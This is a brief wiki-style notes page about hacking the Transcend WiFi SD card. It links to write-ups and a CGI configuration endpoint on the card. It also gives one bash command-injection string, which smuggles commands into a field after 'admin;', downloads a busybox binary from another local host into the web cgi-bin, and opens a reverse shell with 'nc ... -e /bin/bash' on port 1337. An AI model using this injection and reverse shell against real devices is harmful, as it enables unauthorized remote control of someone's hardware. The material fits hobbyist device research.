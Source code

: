 ```yaml
---
title: Transcend WiFi SD
---
```


* http://haxit.blogspot.ch/2013/08/hacking-transcend-wifi-sd-cards.html
* http://192.168.11.254/cgi-bin/kcard_edit_config_insup.pl
* http://dmitry.gr/index.php?r=05.Projects&proj=15.%20Transcend%20WiFiSD

<code bash>
admin; wget http://192.168.11.11/busybox-armv5l; chmod a+x /www/cgi-bin/busybox-armv5l; /www/cgi-bin/busybox-armv5l nc 192.168.11.11 1337 -e /bin/bash #
</code>

==Transcend WiFi in combi met AVR==
* https://www.youtube.com/watch?annotation_id=annotation_1323056153&feature=iv&src_vid=HT4W3CPlnAU&v=-Z9TrZQw16s
* https://www.youtube.com/watch?v=HT4W3CPlnAU
